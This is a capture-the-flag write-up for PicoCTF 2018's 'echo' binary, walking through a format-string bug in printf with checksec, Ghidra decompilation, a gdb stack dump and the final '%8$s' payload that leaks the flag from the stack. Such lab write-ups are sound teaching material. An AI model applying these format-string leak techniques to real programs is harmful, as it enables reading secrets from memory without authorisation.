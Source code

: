 # Picoctf 2018 echo

Let's take a look at the binary:

```
$    file echo
echo: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=a5f76d1d59c0d562ca051cb171db19b5f0bd8fe7, not stripped
$    pwn checksec echo
[*] '/Hackery/pod/modules/fmt_strings/pico18_echo/echo'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
$    ./echo
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> %x.%x
40.f7f925c0
> guyinatuxedo
guyinatuxedo
```

So we can see that we are dealing with a 32 bit executable. When we run it, it prompts us for input and prints it back to us. We can also see that with `%x` that there is a format string bug (when printf doesn't specify the format for data to be printed, and the data can). Looking at the main function in ghidra, we see this:

```

void main(void)

{
  __gid_t __rgid;
  FILE *flagFile;
  char input [64];
  char flag [64];
 
  setvbuf(stdout,(char *)0x0,2,0);
  __rgid = getegid();
  setresgid(__rgid,__rgid,__rgid);
  memset(input,0,0x40);
  memset(input,0,0x40);
  puts("Time to learn about Format Strings!");
  puts("We will evaluate any format string you give us with printf().");
  puts("See if you can get the flag!");
  flagFile = fopen("flag.txt","r");
  if (flagFile == (FILE *)0x0) {
    puts(
        "Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are runningthis on the shell server."
        );
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(flag,0x40,flagFile);
  do {
    printf("> ");
    fgets(input,0x40,stdin);
    printf(input);
  } while( true );
}
```

So we can see a few things here. First the format string bug takes place in a loop that on paper will run infinitely (the while true loop). However before that, we see that it actually scans the contents of the flag file to a char array on the stack for `main`, so it's not too far away (also we need to have a `flag.txt` file in the same directory as the executable when we run it). If we can find the offset to it's pointer, we can just print it using `%s` with the format string bug. We can check the offset using gdb. We will essentially just leak a bunch of values, check to see where the flag is in memory, and see if any of those values is a pointer to the flag:

```
$    cat flag.txt
flag{flag}
$    gdb ./echo
GNU gdb (Ubuntu 8.1-0ubuntu3) 8.1.0.20180409-git
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
75 commands loaded for GDB 8.1.0.20180409-git using Python engine 3.6
[*] 5 commands could not be loaded, run `gef missing` to know why.
Reading symbols from ./echo...(no debugging symbols found)...done.
gef➤  r
Starting program: /Hackery/pod/modules/fmt_strings/pico18_echo/echo
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> %x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
40.f7faf5c0.8048647.f7fdf409.f63d4e2e.f7ffdaf8.ffffd124.ffffd02c.3e8.804b160.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.> 40.f7faf5c0.8048647.f7fdf409.f63d4e2e.f7ffdaf8.ffffd124.ffffd02c.3e8.804b160.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.
> ^C
Program received signal SIGINT, Interrupt.
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xfffffe00
$ebx   : 0x0       
$ecx   : 0x0804c2d0  →  "%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x[...]"
$edx   : 0x400     
$esp   : 0xffffce70  →  0xffffced8  →  0x0000003f ("?"?)
$ebp   : 0xffffced8  →  0x0000003f ("?"?)
$esi   : 0xf7faf5c0  →  0xfbad2288
$edi   : 0xf7faf000  →  0x001d7d6c ("l}"?)
$eip   : 0xf7fd5059  →  <__kernel_vsyscall+9> pop ebp
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffce70│+0x0000: 0xffffced8  →  0x0000003f ("?"?)     ← $esp
0xffffce74│+0x0004: 0x00000400
0xffffce78│+0x0008: 0x0804c2d0  →  "%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x[...]"
0xffffce7c│+0x000c: 0xf7ebdcd7  →  0xfff0003d ("="?)
0xffffce80│+0x0010: 0x00000000
0xffffce84│+0x0014: 0x00000000
0xffffce88│+0x0018: 0xf7e4b1b9  →  <_IO_doallocbuf+9> add ebx, 0x163e47
0xffffce8c│+0x001c: 0xf7faf5c0  →  0xfbad2288
──────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
   0xf7fd5053 <__kernel_vsyscall+3> mov    ebp, esp
   0xf7fd5055 <__kernel_vsyscall+5> sysenter
   0xf7fd5057 <__kernel_vsyscall+7> int    0x80
 → 0xf7fd5059 <__kernel_vsyscall+9> pop    ebp
   0xf7fd505a <__kernel_vsyscall+10> pop    edx
   0xf7fd505b <__kernel_vsyscall+11> pop    ecx
   0xf7fd505c <__kernel_vsyscall+12> ret    
   0xf7fd505d                  nop    
   0xf7fd505e                  nop    
──────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "echo", stopped, reason: SIGINT
────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0xf7fd5059 → __kernel_vsyscall()
[#1] 0xf7ebdcd7 → read()
[#2] 0xf7e4a188 → _IO_file_underflow()
[#3] 0xf7e4b2ab → _IO_default_uflow()
[#4] 0xf7e3e151 → _IO_getline_info()
[#5] 0xf7e3e29e → _IO_getline()
[#6] 0xf7e3d04c → fgets()
[#7] 0x8048742 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────
0xf7fd5059 in __kernel_vsyscall ()
gef➤  search-pattern flag{flag}
[+] Searching 'flag{flag}' in memory
[+] In '[heap]'(0x804b000-0x806d000), permission=rw-
  0x804b2c0 - 0x804b2ca  →   "flag{flag}"
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffd02c - 0xffffd036  →   "flag{flag}"
```

So we can see that on the stack the contents of `flag{flag}` resides at `0xffffd02c`. We can also see that we can reach it using the format string bug at offset `8`. With this, we can leak the flag.

```
$    ./echo
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> %8$s
flag{flag}

> ^C
```

Just like that, we got the flag!

